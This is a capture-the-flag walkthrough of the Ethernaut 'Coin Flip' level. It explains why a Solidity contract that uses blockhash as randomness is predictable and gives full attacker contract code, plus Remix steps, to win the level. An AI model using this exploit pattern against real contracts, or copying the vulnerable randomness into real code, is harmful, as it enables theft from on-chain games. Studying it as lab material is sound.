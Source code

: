 ***Coin Flip***

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

Sounds improbable, maybe we can cheat the odds?

Some levels will require working outside of the browser console. That is, writing solidity code and deploying it in the network to attack the level's instance contract with another contract. This can be done in multiple ways, and I prefer to use the Remix Solidity IDE.

**The Contract:**
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

**Learnings:** Solidity can't generate random numbers.

![Alt text](fair.png)

Let's break down some of these terms to identify what we're dealing with.

***block.number*** = the current block. When a transaction is picked up in a particular block, block.number is able to identify the block that this transaction is within. As of 12/17/2022, the block height is currently 16205934.

***blockhash*** = ```blockhash(uint blockNumber) returns (bytes32)```: hash of the given block when blocknumber is one of the 256 most recent blocks; otherwise returns zero

From https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html:

***Do not rely on block.timestamp or blockhash as a source of randomness, unless you know what you are doing.***

Okay, so what if we wrote some code to just calculate this value, then pass it into the contract in the same block? The result would be the same. Here's how we can do that:

1) In remix, copy the CoinFlip contract from earlier and paste it in. This allows us to reference the deployed contract, and allows us to import this contract to interact with.

2) In Ethernaut, copy the instance ID found in **help()**, and paste that into the 'Deploy and Run Transactions' tab in remix. Be sure to change the environment to injected provider, as the instance deployed on ethernaut is on the real testnet! Click the blue 'at address' button to automatically have remix pull this contract up for you.

3) Create a new contract that'll be used to calculate the coinflip just before calling the coinflip contract. Below is the code I used:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'coinflip.sol';

contract CoinFlipGuess {
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function guess(address _target) public{
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

        CoinFlip(_target).flip(side);
    }
}
```

The import statement at the top allows this contract to call the coinflip contract with the last line here. We can call \<contractName>(\<parameters>).\<contractFunction>(\<parameters>)

Deploy that, and we're ready to go!

Notice on the left that I've already called the guess function 3 times and successfully calculated the coin flip each time:

![Alt text](flips.jpg)

Now you can just spam the guess function until you get up to 10. Notice, some transactions may revert, but that's not an issue. Reverting just means the entire transaction was undone, it won't ruin your streak!

Congrats! Once you rack up to 10, submit the instance for the win!